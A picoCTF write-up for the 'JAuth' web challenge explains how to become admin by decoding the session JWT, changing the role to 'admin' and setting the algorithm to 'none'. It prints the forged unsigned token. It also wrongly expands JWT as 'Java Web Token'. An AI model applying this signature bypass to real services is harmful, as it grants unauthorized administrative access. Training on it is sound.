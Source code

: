 # JAuth

- [Challenge information](JAuth.md#challenge-information)
- [Solution](JAuth.md#solution)

## Challenge information
```
Points: 300
Tags: picoGym Exclusive, Web Exploitation
Author: GEOFFREY NJOGU

Description:
Most web application developers use third party components without testing their security. 

Some of the past affected companies are:
 * Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
 * Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
 * VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?

You can login as test with the password Test123! to get started.

Hints:
1. Use the web browser tools to check out the JWT cookie.
2. The JWT should always have two (2) . separators.
```

## Solution

### Connect to the website

Browse to the web site and login with `test:Test123!`

Next use your browsers DevTools (press F12) and select the Application tab. Then select the `token` cookie.

![The Token Cookie](The_Token_Cookie_in_DevTools.png)

Copy the cookie which should look like this
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjkwMjIzODc4fQ.XbdYap8wn4MDxo8PiK0XYjRv2hE-UHrSa8xlLmTGbEo
```

This is a Java Web Token (JWT) and it consists of 3 parts separated by dots:
 * Header
 * Payload
 * Signature

### Decode the JWT token

Decode the JWT on an online service such as [Token.Dev](https://token.dev/). Replace the dummy/demo JWT with your data.

The data is base64-decoded and you can see that the header contains
```
{
  "typ": "JWT",
  "alg": "HS256"
}
```

And the payload contains
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1690223878
}
```

The `auth` and `iat` fields are timestamps and will be different in your case.
Note that the `role` field says "user".

### Create a new JWT token

Instead of `role` user we want to be admin, so change this field
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "admin",
  "iat": 1690223878
}
```

But now we have a problem. The signature isn't valid anymore.  
However, we can bypass this by changing the algorithm to none. This disables/removes the signature.
```
{
  "typ": "JWT",
  "alg": "none"
}
```

Copy the new JWT and remember the hint. A JWT should always have two periods and our new JWT only have one.  
So add a period at the end.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY5MDIyMzg3OH0.
```

### Use the new JWT token to get the flag

Go back to the browser and replace the `token` cookie with the new one. Then reload the page (press F5).
You should now see the following message with the flag.
```
Hello, admin! You have logged in as admin!
picoCTF{<REDACTED>}
```
